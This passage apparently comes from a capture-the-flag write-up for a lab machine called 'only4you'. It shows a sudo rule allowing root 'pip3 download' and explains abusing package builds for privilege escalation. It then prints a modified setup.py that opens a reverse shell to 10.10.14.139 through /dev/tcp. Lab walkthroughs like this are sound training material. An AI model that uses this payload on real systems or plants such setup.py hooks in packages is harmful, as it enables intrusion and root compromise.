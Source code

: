 ![](Images/Test.png)

There is 1 repository as Test, but there doesn't seem to be anything interesting here.

Checking `sudo` privileges:
```
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

### Abusing pip3 download to execute commands as root

It looks like we can use `pip3` to download any repository zip as root. When researching what can be done about this, I find [this article, Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/). It seems that when pip is downloading/installing, `setup.py` is executed and in our case, will be done so as root. This allows us to supply malicious code in `setup.py`, and we can perform privilege escalation.

Zipping the repo seems rather complicated, so I just cloned the repo, edited my paylod into setup.py, and followed instructions to comress/build:
```
$ git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi/
```
changes to setup.py:
```
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("bash -c '/bin/bash -i >& /dev/tcp/10.10.14.139/8888 0>&1'")

class RunEggInfoCommand(egg_info):
<...SNIP...>
```